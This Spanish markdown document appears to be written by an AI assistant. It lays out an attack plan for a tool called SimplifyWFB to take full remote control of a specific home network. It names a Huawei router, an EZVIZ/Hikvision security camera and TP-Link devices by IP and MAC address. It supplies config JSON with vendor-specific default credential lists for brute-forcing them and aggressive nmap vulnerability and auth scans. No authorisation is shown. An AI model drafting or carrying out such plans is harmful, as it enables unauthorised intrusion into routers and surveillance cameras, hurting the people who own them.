 # Estrategia de Ataque de Alto Impacto - SimplifyWFB

## Resumen Ejecutivo

Basándome en el análisis del reporte `pt.json` y la evaluación estratégica, he implementado mejoras específicas para maximizar el impacto del ataque en un solo intento. El objetivo es **obtener acceso total remoto a la red** como si estuvieras físicamente presente.

## Objetivos de Alto Valor Identificados

### 🎯 Router Principal (192.168.1.1)
- **Fabricante**: Huawei Technologies
- **MAC**: C4:5E:5C:27:C0:36
- **Importancia**: CRÍTICA - Control del router = Control de toda la red
- **Estrategia**: Compromiso prioritario con credenciales específicas de Huawei

### 🎯 Cámara de Seguridad (192.168.1.218)
- **Fabricante**: Hangzhou Ezviz Software (Hikvision)
- **MAC**: 34:C6:DD:B4:97:4F
- **Importancia**: ALTA - Punto de pivote y vigilancia
- **Estrategia**: Acceso con credenciales específicas de EZVIZ/Hikvision

### 🎯 Dispositivos TP-Link (192.168.1.241-254)
- **Fabricantes**: TP-Link PTE.
- **Importancia**: MEDIA - Posibles extensores o enchufes inteligentes
- **Estrategia**: Compromiso con credenciales específicas de TP-Link

## Mejoras Implementadas

### 1. Configuración Optimizada (`config.json`)

#### Credenciales Específicas por Fabricante
```json
"router_users_huawei": ["admin", "root", "user", "telecomadmin", "support", "huawei", "guest"],
"router_passwords_huawei": ["admin", "admintelecom", "1234", "12345", "support", "", "huawei", "telecomadmin", "admin123", "password"],

"camera_users_ezviz": ["admin", "user", "guest", "test", "ezviz", "hikvision", "viewer"],
"camera_passwords_ezviz": ["admin", "12345", "123456", "test", "1111", "888888", "ezviz", "hikvision", "1234", "admin123", "password", ""],

"tplink_users": ["admin", "root", "user", "guest", "tplink"],
"tplink_passwords": ["admin", "1234", "12345", "123456", "tplink", "password", "", "admin123"]
```

#### Escaneo Agresivo de Nmap
```json
"nmap_options": "-sS -T4 -A --top-ports 200 --version-intensity 5 --script vuln,default,auth",
"target_priority": {
  "high_value_targets": ["192.168.1.1", "192.168.1.218", "192.168.1.241", "192.168.1.242", "192.168.1.251", "192.168.1.252", "192.168.1.253", "192.168.1.254"],
  "scan_intensity": "aggressive",
  "service_detection": "comprehensive"
}
```
